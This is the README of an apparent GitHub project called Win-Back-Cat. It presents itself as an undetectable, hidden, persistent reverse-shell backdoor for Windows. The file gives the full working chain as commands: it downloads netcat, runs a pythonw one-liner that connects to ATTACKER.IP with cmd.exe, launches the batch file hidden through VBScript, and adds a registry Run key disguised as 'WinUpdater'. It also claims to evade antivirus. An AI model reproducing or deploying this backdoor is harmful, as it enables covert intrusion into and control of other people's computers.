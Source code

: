 <p>
  <h3 align="center">Win-Back-Cat</h3>
  <p align="center">
    A fully undetected, hidden, persistent, reverse netcat shell backdoor for Windows.
    <br />
    <br />
    <a href="https://github.com/RAF-87/win-back-cat/issues">Report Bug</a>
    ·
    <a href="https://github.com/RAF-87/win-back-cat/issues">Request Feature</a>
  </p>
</p>

<br />
<br />
<br />

<!-- ABOUT THE PROJECT -->

## About The Project

<br />

### Breakdown:

<br />

- Move into Temp folder with Environment Variable `%TEMP%` as this helps with compatibility between Windows versions.

- Fetch our Netcat version from repo with:<br />
 `curl https://raw.githubusercontent.com/RAF-87/win-back-cat/main/files/nc.exe > nc.exe`
<br />

#### Why? - Reverse Shell

<br />
We need Linux version of Netcat compiled for Windows, instead of the more common OpenBSD version.
<br /><br />
The feature we need is this one:
<br />

- `-e filename`: specify `filename` to exec after connect (use with caution). See the -c option for enhanced functionality.

<br />
In our case the `filename` will be `cmd.exe`. This flag is missing on some versions for obvious Security reasons.
<br />
<br />

#### Pythonw - Undetected

<br />

- Why `pythonw.exe` instead of `python.exe`?

`pythonw.exe` is a GUI app for launching GUI/no-UI-at-all scripts.

- NO console window is opened.
- Execution is asynchronous:
-- When invoked from a console window, the script is merely launched and the prompt returns right away, whether the script is still running or not.

- Windows trusts python. :shrug:

<br />

`pythonw -c "from subprocess import check_output; check_output('nc.exe `ATTACKER.IP` 4445 -e cmd.exe', shell=True);" >> wncat.bat`

We use `-c` to run the script as one-liner from string. We export it onto a batch script for easier execution chained with the next step.

<br />

#### Visual Basic - Hidden
<br />
`Dim WinScriptHost
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "%TEMP%\wncat.bat" & Chr(34), 0
Set WinScriptHost = Nothing`

The above script, will run our batch script as a separate process on the background without the user ever seeing anything.

<br />

#### Windows Registry - Persistent

<br />

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"`

We add our Visual Basic script to Run from the registry entry when Windows Boots up.
So whenever we lose connection, the backdoor will reopen at the next reboot.

<br /><br />

# Note:
- Using these combined tools, Windows or Any Antivirus cannot detect this backdoor.

Remember to edit `ATTACKER.IP` for the reverse shell to work.

<br /><br /><br />

<!-- CONTACT -->
## Contact

- LinkedIn: [https://www.linkedin.com/in/raffaele-paglietti/](https://www.linkedin.com/in/raffaele-paglietti/)
- Email: wize@deadcyber.com
- Project Link: [https://github.com/RAF-87/win-back-cat](https://github.com/RAF-87/win-back-cat)

